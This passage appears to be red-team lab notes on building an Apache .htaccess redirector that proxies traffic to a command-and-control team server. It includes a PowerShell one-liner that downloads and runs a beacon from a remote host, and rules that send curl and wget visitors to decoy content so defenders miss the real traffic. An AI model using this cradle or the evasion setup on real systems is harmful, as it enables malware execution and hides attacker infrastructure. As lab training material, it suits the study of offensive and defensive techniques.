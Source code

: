 Next create an .htaccess file in the apache web root `/var/www/html` and enter the following:

```
RewriteEngine on
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P]
```

After saving the file, we can test it with curl from the Attacker Desktop. `curl https://infinity-bank.com/test`

and it should hit the team server with a request against /test

further testing would be to execute a beacon on workstation 1:

```
iex (new-object net.webclient).downloadstring("https://www.infinity-bank.com/a")
```

Multiple htaccess flags can be used with the syntax `[Flag1,Flag2,FlagN]`.  Other useful flags include:

[L] - Last.  Tells `mod_rewrite` to stop processing further rules.
[NE] - No Escape.  Don't encode special characters (e.g. `&` and `?`) to their hex values.
[R] - Redirect.  Send a redirect code in response.
[S] - Skip.  Skip the next N number of rules.
[T] - Type.  Sets the MIME type of the response.

Rewrite conditions (RewriteCond) can be combined with RewriteRule. These allow rewrite rules to only be applied under certain conditions. The syntax is `TestString Condition [Flags]`.  TestString can be static but also a variable, such as `%{REMOTE_ADDR}`, `%{HTTP_COOKIE}`, `%{HTTP_USER_AGENT}`, `%{REQUEST_URI}` and more.

Multiple RewriteCond rules can be defined which are treated like ANDs by default, but can be treated as ORs with an `[OR]` flag.  You can have multiple RewriteCond and RewriteRule directives in the same file and they are evaluated top-to-bottom.

Documentation for [this](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html)

## User Agent Roles

Drop the traffic entirely or redirect the request to some dummy content.  First, create that dummy content on the redirector.

```
echo "Nothing to see here..." | sudo tee /var/www/html/diversion
```

Then modify your htaccess file like so:

```
RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule ^a$ diversion [PT]

RewriteCond /var/www/html/%{REQUEST_URI} -f
RewriteRule ^.*$ %{REQUEST_FILENAME} [L]

RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P]
```
